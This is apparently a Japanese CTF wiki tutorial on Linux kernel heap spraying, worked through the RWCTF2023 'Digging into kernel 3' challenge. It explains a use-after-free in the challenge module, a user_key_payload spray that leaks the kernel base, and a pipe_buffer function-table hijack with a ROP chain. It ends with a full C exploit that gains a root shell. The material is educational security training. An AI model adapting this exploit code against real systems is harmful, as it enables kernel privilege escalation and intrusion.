

# Heap Spray

**ヒープスプレー**(堆喷射、heap spraying)とは、「**同じ構造体を大量に確保することで特定のメモリレイアウトを作り出し**、後続の攻略を助ける」補助的な攻撃手法です。次のような場面でよく使われます。

- UAF はあるが、**少量のメモリ確保ではその構造体を取得できない**場合(たとえば、そのオブジェクトが現在の freelist に属さず、解放後は node に戻ってしまう場合や、`add_key()` のように最初の一時的な構造体に居座られてしまう場合など)。このとき、**ヒープスプレーによってそのオブジェクトを確実に取得できます**。
- ヒープオーバーフローによる読み取り/書き込みはあるが、**ヒープのレイアウトが分からない**場合(たとえば `SLAB_FREELIST_RANDOM`(デフォルトで有効)が有効な場合)。**特定の構造体を事前に大量にスプレーしておくことで、そのどれかの構造体へのオーバーフローを保証できます**。
- ......

補助的な攻撃手法として、ヒープスプレーはさまざまな場面で応用できます。

## 例題：RWCTF2023体験賽 - Digging into kernel 3

> この記事ではヒープスプレーという手法を紹介するため、またより多くの異なる構造体を使うために、**筆者はやや複雑な方針で問題を解きます**。

問題の添付ファイルは [https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/kernel-mode/RWCTF2023-digging-into-kernel-3](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/kernel-mode/RWCTF2023-digging-into-kernel-3) からダウンロードできます。

### 問題の分析

いつものように起動スクリプトを確認すると、SMEP、SMAP、KASLR、KPTI が有効になっています。

```bash
#!/bin/sh

qemu-system-x86_64 \
	-m 128M \
	-nographic \
	-kernel ./bzImage \
	-initrd ./rootfs.img \
	-enable-kvm \
	-cpu kvm64,+smap,+smep \
	-monitor /dev/null \
	-append 'console=ttyS0 kaslr kpti=1 quiet oops=panic panic=1 init=/init' \
	-no-reboot \
	-snapshot \
	-s
```

ファイルシステムには `rwctf.ko` が入っています。IDA で開いて解析すると、定義されている ioctl は 1 つだけで、2 つの機能を提供していることが分かります。

- 0xDEADBEEF：**任意のサイズ**のオブジェクトを確保してデータを書き込めます。確保 flag は `__GFP_ZERO | GFP_KERNEL` ですが、同時に持てるオブジェクトは 2 つまでです。
- 0xC0DECAFE：以前に確保したオブジェクトを解放します。**UAF があります**。



次の構造体を渡す必要があります。

```c
struct node {
    uint32_t idx;
    uint32_t size;
    void *buf;
};
```

筆者が確認したところ、出題者は**デフォルトで有効な次の保護を手動で無効にしています**(出題者は問題の難易度を下げるために、もっと多くを無効にしているかもしれませんが、筆者が確認したのはこれらだけです)。

- `CONFIG_MEMCG_KMEM` を無効にしています。これにより、`GFP_KERNEL` と `GFP_KERNEL_ACCOUNT` が同じ `kmalloc-xx` から確保されるようになります。
- `CONFIG_RANDOMIZE_KSTACK_OFFSET` を無効にしています。これにより、特定の関数呼び出しからカーネルスタックの底までのオフセット値が変わらなくなります。
- `SLAB_FREELIST_HARDENED` を無効にしています。これにより、freelist はほとんど保護されず、任意アドレスへの確保と任意アドレスの読み書きを簡単に行えます。

ただ、筆者の考えでは、_出題者があえて難易度を下げる必要はありませんでした_。以下では、この 3 つの保護が有効な場合でも攻略できる方法を示します ：）

### 脆弱性の悪用

問題にすでに制限のない UAF がそのまま用意されているので、攻略方法はいろいろ考えられます。ここでは [user\_key\_payload](https://arttnba3.cn/2021/11/29/PWN-0X02-LINUX-KERNEL-PWN-PART-II/#0x0A-%E5%86%85%E6%A0%B8%E5%AF%86%E9%92%A5%E7%AE%A1%E7%90%86%EF%BC%9A%E5%86%85%E6%A0%B8%E4%B8%AD%E7%9A%84%E2%80%9C%E8%8F%9C%E5%8D%95%E5%A0%86%E2%80%9D) を使って攻略することにします。

#### Step.I - user\_key\_payload のヒープスプレーと範囲外読み取りによるカーネルベースアドレスのリーク

カーネルには鍵管理のためのサブシステムがあります。カーネルは鍵を作成するシステムコール `add_key()` を提供し、さらに鍵の読み取り、更新、破棄などを行うシステムコール `keyctl()` を提供しています。

```c
        #include <sys/types.h>
        #include <keyutils.h>

        key_serial_t add_key(const char *type, const char *description,
                                    const void *payload, size_t plen,
                                    key_serial_t keyring);
//...
       #include <asm/unistd.h>
       #include <linux/keyctl.h>
       #include <unistd.h>

       long syscall(__NR_keyctl, int operation, __kernel_ulong_t arg2,
                    __kernel_ulong_t arg3, __kernel_ulong_t arg4,
                    __kernel_ulong_t arg5);

```

`add_key()` を呼び出して、`description` 文字列を持つ、型が `"user"` で、長さが `plen`、内容が `payload` の鍵を確保すると、カーネルは次の処理を行います。

- まずカーネル空間に obj 1 と obj2 を確保します。確保 flag は `GFP_KERNEL` で、それぞれ `description`(文字列、最大サイズ 4096)と `payload`(通常のデータ、サイズ無制限)を保持するために使います。
- `description` を保持する obj3 と、`payload` を保持する obj4 を確保します。確保 flag はどちらも `GFP_KERNEL` です。
- obj1 と obj2 を解放し、鍵の id を返します。

このうち obj4 は `user_key_payload` 構造体で、次のように定義されています。

```c
struct user_key_payload {
	struct rcu_head	rcu;		/* RCU destructor */
	unsigned short	datalen;	/* length of this data */
	char		data[] __aligned(__alignof__(u64)); /* actual data */
};

//...

struct callback_head {
	struct callback_head *next;
	void (*func)(struct callback_head *head);
} __attribute__((aligned(sizeof(void *))));
#define rcu_head callback_head
```

`msg_msg` と同様に、`user_key_payload` 構造体は固定サイズのヘッダを持ち、残りの領域にユーザ空間から渡されたデータ(鍵の内容)を格納します。

 `keyctl()` システムコールは、鍵の読み取り、更新(新しいオブジェクトを確保して古いオブジェクトを解放)、破棄(payload の解放)の機能を提供します。このうち読み取りの最大長は `user_key_payload->datalen` で決まります。そこで、問題が提供する UAF を使って `user_key_payload->datalen` を大きく書き換えれば、範囲外読み取りができると考えられます。

次の 2 点に注意してください。

- ここでは、攻略モデルを単純にするために、description 文字列と payload の長さを異なるものにする必要があります。
- 鍵を読み取るときの len は、**user\_key\_payload->datalen 以上でなければなりません。そうでないと読み取りに失敗します**。

ただし、ここに問題があります。**add\_key() は、まず payload をコピーするための一時的な obj1 を確保し、その後で user\_key\_payload となる obj2 を確保します**。そのため、先にオブジェクトを 1 つ確保して解放してから add\_key() を呼び出しても、そのオブジェクトがそのまま `user_key_payload` になることはなく、以降の数回の確保で、payload をコピーするための一時オブジェクトとして使われ続けます。

**しかし、ヒープスプレーによって UAF obj を user\_key\_payload として確保させることができます**。次の流れを考えます。

- 問題の機能を使って UAF object を作ります。
- `user_key_payload` をヒープスプレーします。UAF obj は payload をコピーするための一時オブジェクトとして使われます。
- `kmem_cache_cpu` の slub page を使い切ると、node に新しい slub page を要求して `user_key_payload` を確保します。それが完了すると UAF obj は解放され、`kmem_cache_node` に戻ります。
- さらに `user_key_payload` のヒープスプレーを続けます。`kmem_cache_cpu` の slub page を使い切り、node に新しい slub page を要求して `user_key_payload` を確保します。
- UAF obj のあるページが取り戻され、UAF obj が `user_key_payload` として確保されます。
- 問題の機能で UAF obj を再び解放し、問題の機能でヒープスプレーを行ってそのオブジェクトを取得し、`user_key_payload` を上書きします。

> 注：公式の解説でも、アドレスのリークに同様の手法が使われています。
>
> > ただし筆者は、問題の機能で obj1 と obj2 を確保してすべて解放し、その後 obj2 に UAF を作れば十分だと思っています :) ここでこの方法を使ったのは、heap spraying という手法を紹介するためにすぎません。
> >
> > > 筆者は Step.II でこの方法を使います。

次に、範囲外読み取りでどのデータを読み取るかを考えます。ここでは、ほかの構造体を確保する必要はありません。`rcu_head->func` **関数ポインタは、rcu オブジェクトが解放された後に書き込まれて呼び出されますが、呼び出した後も NULL にはされません**。そのため、鍵を解放することでカーネルヒープ上にカーネル関数ポインタを残し、カーネルのベースアドレスをリークできます。

#### Step.II - UAF で制御可能なヒープオブジェクトのアドレスをリークし、pipe\_buffer を改ざんして制御フローをハイジャックする

カーネルの実行フローの制御に使える構造体は数多くあります。しかし、`commit_creds(prepare_kernel_cred(NULL))` を最後まで実行したうえでユーザ空間にうまく戻る方法を考える必要があるため、スタックピボットを行って、ある程度完全な ROP gadget chain を配置する必要があります。

この問題では SMEP と SMAP が有効なので、関数テーブルはカーネル空間にしか偽造できません。また、カーネル内のほとんどの構造体の関数テーブルは静的に指定されています(たとえば `tty->ops` は常に `ptm_unix98_ops`(または `pty_unix98_ops`)です)。そのため、内容を制御できるカーネルオブジェクトのアドレスも知っておく必要があり、そこにカーネル空間内で関数テーブルを偽造します。

ここでは、パイプ関連の構造体を使って攻略します。カーネル内では、パイプは本質的に**仮想的な inode** を作成することで表現されており、これに対応するのが `pipe_inode_info` 構造体です。

```c
struct pipe_inode_info {
	struct mutex mutex;
	wait_queue_head_t rd_wait, wr_wait;
	unsigned int head;
	unsigned int tail;
	unsigned int max_usage;
	unsigned int ring_size;
#ifdef CONFIG_WATCH_QUEUE
	bool note_loss;
#endif
	unsigned int nr_accounted;
	unsigned int readers;
	unsigned int writers;
	unsigned int files;
	unsigned int r_counter;
	unsigned int w_counter;
	struct page *tmp_page;
	struct fasync_struct *fasync_readers;
	struct fasync_struct *fasync_writers;
	struct pipe_buffer *bufs;
	struct user_struct *user;
#ifdef CONFIG_WATCH_QUEUE
	struct watch_queue *watch_queue;
#endif
};
```

同時に、カーネルは `pipe_buffer` 構造体の配列を確保します。各 `pipe_buffer` 構造体は、データを格納するためのメモリページ 1 枚に対応します。

```c
struct pipe_buffer {
	struct page *page;
	unsigned int offset, len;
	const struct pipe_buf_operations *ops;
	unsigned int flags;
	unsigned long private;
};
```

`pipe_buf_operations` は関数テーブルで、パイプに対して特定の操作を行うと、カーネルはこのテーブル上の対応する関数を呼び出します。たとえばパイプの両端を閉じると、`pipe_buffer->pipe_buffer_operations->release` というポインタが呼び出されます。これによりカーネルの実行フローを制御でき、権限昇格が可能になります。

```c
struct pipe_buf_operations {
	//...

	/*
	 * When the contents of this pipe buffer has been completely
	 * consumed by a reader, ->release() is called.
	 */
	void (*release)(struct pipe_inode_info *, struct pipe_buffer *);
```

そこで、UAF を使って `user_key_payload` と `pipe_inode_info` を同じ object に配置します。`pipe_inode_info` によって、ちょうど `user_key_payload->datalen` が `0xFFFF` に書き換えられ、データを引き続き読み取れるようになります。これで `pipe_inode_info` を読み取り、`pipe_buffer` のアドレスをリークできます。

また、`pipe_buffer` は動的に確保されるため、問題の機能で事前にオブジェクトを 1 つ `pipe_buffer` として確保しておき、その上に関数テーブルを直接偽造すれば済みます。

> 筆者にとって面倒だったのは、むしろスタックピボット用の gadget を探すことでした...それでも最終的には、適切な gadget をいくつか見つけられました。

### EXPLOIT

最終的な exp は次のとおりです。

```c
#define _GNU_SOURCE
#include <sys/types.h>
#include <sys/ioctl.h>
#include <sys/prctl.h>
#include <sys/syscall.h>
#include <sys/mman.h>
#include <sys/wait.h>
#include <stdio.h>
#include <signal.h>
#include <pthread.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <ctype.h>
#include <stdint.h>

/**
 * Utilities
 */

size_t kernel_base = 0xffffffff81000000, kernel_offset = 0;

void err_exit(char *msg)
{
    printf("\033[31m\033[1m[x] Error at: \033[0m%s\n", msg);
    sleep(5);
    exit(EXIT_FAILURE);
}

/* root checker and shell poper */
void get_root_shell(void)
{
    if(getuid()) {
        puts("\033[31m\033[1m[x] Failed to get the root!\033[0m");
        sleep(5);
        exit(EXIT_FAILURE);
    }

    puts("\033[32m\033[1m[+] Successful to get the root. \033[0m");
    puts("\033[34m\033[1m[*] Execve root shell now...\033[0m");
    
    system("/bin/sh");
    
    /* to exit the process normally, instead of segmentation fault */
    exit(EXIT_SUCCESS);
}

/* userspace status saver */
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    asm volatile("mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );

    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}

/* bind the process to specific core */
void bind_core(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    printf("\033[34m\033[1m[*] Process binded to core \033[0m%d\n", core);
}

/**
 * Syscall keyctl() operator
 */

#define KEY_SPEC_PROCESS_KEYRING -2 /* - key ID for process-specific keyring */
#define KEYCTL_UPDATE           2   /* update a key */
#define KEYCTL_REVOKE           3   /* revoke a key */
#define KEYCTL_UNLINK           9   /* unlink a key from a keyring */
#define KEYCTL_READ             11  /* read a key or keyring's contents */

int key_alloc(char *description, void *payload, size_t plen)
{
    return syscall(__NR_add_key, "user", description, payload, plen, 
                   KEY_SPEC_PROCESS_KEYRING);
}

int key_update(int keyid, void *payload, size_t plen)
{
    return syscall(__NR_keyctl, KEYCTL_UPDATE, keyid, payload, plen);
}

int key_read(int keyid, void *buffer, size_t buflen)
{
    return syscall(__NR_keyctl, KEYCTL_READ, keyid, buffer, buflen);
}

int key_revoke(int keyid)
{
    return syscall(__NR_keyctl, KEYCTL_REVOKE, keyid, 0, 0, 0);
}

int key_unlink(int keyid)
{
    return syscall(__NR_keyctl, KEYCTL_UNLINK, keyid, KEY_SPEC_PROCESS_KEYRING);
}

/**
 * Challenge interactiver
 */

/* kmalloc-192 has only 21 objects on a slub, we don't need to spray to many */
#define KEY_SPRAY_NUM 40

#define PIPE_INODE_INFO_SZ 192
#define PIPE_BUFFER_SZ 1024

#define USER_FREE_PAYLOAD_RCU 0xffffffff813d8210
#define PREPARE_KERNEL_CRED 0xffffffff81096110
#define COMMIT_CREDS 0xffffffff81095c30
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff81e00ed0

#define PUSH_RSI_POP_RSP_POP_RBX_POP_RBP_POP_R12_RET 0xffffffff81250c9d
#define POP_RBX_POP_RBP_POP_R12_RET 0xffffffff81250ca4
#define POP_RDI_RET 0xffffffff8106ab4d
#define XCHG_RDI_RAX_DEC_STH_RET 0xffffffff81adfc70

int dev_fd;

struct node {
    uint32_t idx;
    uint32_t size;
    void *buf;
};

/**
 * @brief allocate an object bby kmalloc(size, __GFP_ZERO | GFP_KERNEL )
 * __GFP_RECLAIM = __GFP_KSWAPD_RECLAIM | __GFP_DIRECT_RECLAIM 
 * GFP_KERNEL = __GFP_RECLAIM | __GFP_IO | __GFP_FS
 * 
 * @param idx 
 * @param size 
 * @param buf 
 */
void alloc(uint32_t idx, uint32_t size, void *buf)
{
    struct node n = {
        .idx = idx,
        .size = size,
        .buf = buf,
    };

    ioctl(dev_fd, 0xDEADBEEF, &n);
}

void del(uint32_t idx)
{
    struct node n = {
        .idx = idx,
    };

    ioctl(dev_fd, 0xC0DECAFE, &n);
}

/**
 * Exploit stage
 */

int main(int argc, char **argv, char **envp)
{
    size_t *buf, pipe_buffer_addr;
    int key_id[KEY_SPRAY_NUM], victim_key_idx = -1, pipe_key_id;
    char desciption[0x100];
    int pipe_fd[2];
    int retval;

    /* fundamental works */
    bind_core(0);
    save_status();

    buf = malloc(sizeof(size_t) * 0x4000);

    dev_fd = open("/dev/rwctf", O_RDONLY);
    if (dev_fd < 0) {
        err_exit("FAILED to open the /dev/rwctf file!");
    }

    /* construct UAF on user_key_payload */
    puts("[*] construct UAF obj and spray keys...");
    alloc(0, PIPE_INODE_INFO_SZ, buf);
    del(0);

    for (int i = 0; i < KEY_SPRAY_NUM; i++) {
        snprintf(desciption, 0x100, "%s%d", "arttnba", i);
        key_id[i] = key_alloc(desciption, buf, PIPE_INODE_INFO_SZ - 0x18);
        if (key_id[i] < 0) {
            printf("[x] failed to alloc %d key!\n", i);
            err_exit("FAILED to add_key()!");
        }
    }

    del(0);

    /* corrupt user_key_payload's header */
    puts("[*] corrupting user_key_payload...");

    buf[0] = 0;
    buf[1] = 0;
    buf[2] = 0x2000;

    for (int i = 0; i < (KEY_SPRAY_NUM * 2); i++) {
        alloc(0, PIPE_INODE_INFO_SZ, buf);
    }

    /* check for oob-read and leak kernel base */
    puts("[*] try to make an OOB-read...");

    for (int i = 0; i < KEY_SPRAY_NUM; i++) {
        if (key_read(key_id[i], buf, 0x4000) > PIPE_INODE_INFO_SZ) {
            printf("[+] found victim key at idx: %d\n", i);
            victim_key_idx = i;
        } else {
            key_revoke(key_id[i]);
        }
    }

    if (victim_key_idx == -1) {
        err_exit("FAILED at corrupt user_key_payload!");
    }

    kernel_offset = -1;
    for (int i = 0; i < 0x2000 / 8; i++) {
        if (buf[i] > kernel_base && (buf[i] & 0xfff) == 0x210) {
            kernel_offset = buf[i] - USER_FREE_PAYLOAD_RCU;
            kernel_base += kernel_offset;
            break;
        }
    }

    if (kernel_offset == -1) {
        err_exit("FAILED to leak kernel addr!");
    }

    printf("\033[34m\033[1m[*] Kernel offset: \033[0m0x%lx\n", kernel_offset);
    printf("\033[32m\033[1m[+] Kernel base: \033[0m0x%lx\n", kernel_base);

    /* construct UAF on pipe_inode_buffer to leak pipe_buffer's addr */
    puts("[*] construct UAF on pipe_inode_info...");

    /* 0->1->..., the 1 will be the payload object */
    alloc(0, PIPE_INODE_INFO_SZ, buf);
    alloc(1, PIPE_INODE_INFO_SZ, buf);
    del(1);
    del(0);

    pipe_key_id = key_alloc("arttnba3pipe", buf, PIPE_INODE_INFO_SZ - 0x18);
    del(1);

    /* this object is for the pipe buffer */
    alloc(0, PIPE_BUFFER_SZ, buf);
    del(0);

    pipe(pipe_fd);

    /* note that the user_key_payload->datalen is 0xFFFF now */
    retval = key_read(pipe_key_id, buf, 0xffff);
    pipe_buffer_addr = buf[16]; /* pipe_inode_info->bufs */
    printf("\033[32m\033[1m[+] Got pipe_buffer: \033[0m0x%lx\n", 
            pipe_buffer_addr);

    /* construct fake pipe_buf_operations */
    memset(buf, 'A', sizeof(buf));

    buf[0] = *(size_t*) "arttnba3";
    buf[1] = *(size_t*) "arttnba3";
    buf[2] = pipe_buffer_addr + 0x18;  /* pipe_buffer->ops */
    /* after release(), we got back here */
    buf[3] = kernel_offset + POP_RBX_POP_RBP_POP_R12_RET;
    /* pipe_buf_operations->release */
    buf[4] = kernel_offset + PUSH_RSI_POP_RSP_POP_RBX_POP_RBP_POP_R12_RET;
    buf[5] = *(size_t*) "arttnba3";
    buf[6] = *(size_t*) "arttnba3";
    buf[7] = kernel_offset + POP_RDI_RET;
    buf[8] = (size_t) NULL;
    buf[9] = kernel_offset + PREPARE_KERNEL_CRED;
    buf[10] = kernel_offset + XCHG_RDI_RAX_DEC_STH_RET;
    buf[11] = kernel_offset + COMMIT_CREDS;
    buf[12] = kernel_offset + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 0x31;
    buf[13] = *(size_t*) "arttnba3";
    buf[14] = *(size_t*) "arttnba3";
    buf[15] = (size_t) get_root_shell;
    buf[16] = user_cs;
    buf[17] = user_rflags;
    buf[18] = user_sp + 8; /* system() wants it : ( */
    buf[19] = user_ss;

    del(0);
    alloc(0, PIPE_BUFFER_SZ, buf);

    /* trigger pipe_buf_operations->release */
    puts("[*] trigerring pipe_buf_operations->release()...");

    close(pipe_fd[1]);
    close(pipe_fd[0]);

    return 0;
}

```

## REFERENCE

[【PWN.0x00】Linux Kernel Pwn I：Basic Exploit to Kernel Pwn in CTF](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/)

[【PWN.0x02】Linux Kernel Pwn II：常用结构体集合](https://arttnba3.cn/2021/11/29/PWN-0X02-LINUX-KERNEL-PWN-PART-II/)